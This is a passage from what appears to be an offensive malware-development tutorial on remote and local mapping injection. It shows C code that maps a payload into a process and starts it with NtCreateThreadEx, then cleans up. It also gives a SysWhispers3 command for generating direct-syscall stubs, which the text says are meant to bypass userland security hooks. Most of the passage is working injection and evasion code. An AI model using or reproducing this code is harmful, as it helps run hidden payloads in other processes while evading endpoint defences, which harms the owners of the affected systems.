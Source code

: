 ```c
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pRemoteAddress);
	if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pRemoteAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

//--------------------------------------------------------------------------
	
	// Unmapping the local view - only when the payload is done executing
	if ((STATUS = St.pNtUnmapViewOfSection((HANDLE)-1, pLocalAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	
	// Closing the section handle
	if ((STATUS = St.pNtClose(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}

```

The `NtUnmapViewOfSection` function should only be executed after the payload has finished executing. Attempting to unmap the mapped local view while the payload is still running could break the payload execution or cause a process to crash. As an alternative, the [NtWaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntwaitforsingleobject) syscall can be used to wait until the thread is finished, after which the `NtUnmapViewOfSection` syscall can be performed to clean up the mapped payload, though this is left as an exercise to the reader.

### Implementation Using SysWhispers

The implementation here uses SysWhispers3 to bypass userland hooks via direct syscalls. The following command is used to generate the required files for this implementation.

```c
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtCreateSection,NtMapViewOfSection,NtUnmapViewOfSection,NtClose,NtCreateThreadEx -o SysWhispers -v*
```

Three files are generated: `SysWhispers.h`, `SysWhispers.c` and `SysWhispers-asm.x64.asm`. The next step is to import these files into Visual Studio as demonstrated in the previous module. `LocalMappingInjectionViaSyscalls` and `RemoteMappingInjectionViaSyscalls` are shown below.

#### LocalMappingInjectionViaSyscalls

```c
BOOL LocalMappingInjectionViaSyscalls(IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection		= NULL;
	HANDLE				hThread			= NULL;
	PVOID				pAddress		= NULL;
	NTSTATUS			STATUS			= NULL;
	SIZE_T				sViewSize		= NULL;
	LARGE_INTEGER		MaximumSize		= {
			.HighPart = 0, 
			.LowPart = sPayloadSize 
	};

//--------------------------------------------------------------------------	
```